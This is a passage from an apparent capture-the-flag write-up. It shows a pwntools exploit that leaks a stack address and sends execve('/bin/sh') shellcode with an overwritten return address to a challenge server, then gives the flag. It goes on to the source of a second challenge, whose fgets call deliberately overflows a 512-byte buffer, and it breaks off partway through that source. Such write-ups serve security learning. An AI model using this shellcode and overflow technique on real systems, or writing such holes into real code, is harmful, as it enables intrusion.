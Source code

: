 ```
from pwn import *

r = remote("pwn.chall.pwnoh.io", 13372)
r.recvuntil(b"? ")
r.sendline("Chase after it.")
r.recvuntil("? ")
r.sendline("-4")
rbp_addr = u64(r.recvuntil(b"\x7f") + b"\x00\x00")
buf_addr = rbp_addr - 224
sc = bytes.fromhex("31f648bb2f62696e2f2f73685653545f6a3b5831d20f05")
r.sendline("2")
r.recvuntil('ke." ')
r.sendline(sc + b"A"*17 + p64(buf_addr))

r.interactive()
```

This gives us a shell, which in turn gives us the flag: `buckeye{n3v3r_7ru57_4_741k1n9_m0nk3y}`.

## stack duck (pwn)
We're given the source:

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

volatile long DuckCounter;

__attribute__((noinline))
void win() {
    system("/bin/sh");
}

__attribute__((noinline))
void submit_code() {
    char temp_code[512];

    printf("Please enter your code. Elon will review it for length.\n");
    fgets(temp_code, 552, stdin);
}

__attribute__((noinline))
int menu() {
    printf("Twitter Employee Performance Review\n");
    printf("***********************************\n\n");
    printf("1. Submit code for approval\n");
    printf("2. Get fired\n");

    return 0;
}

int main() {
    setvbuf(stdout, 0, 2, 0);
    int run = 1;
    while (run) {
        char buf[0x20];
        menu();
        fgets(buf, 0x20, stdin);
        int choice = atoi(buf);
        switch (choice) {
            case 1:
                submit_code();
```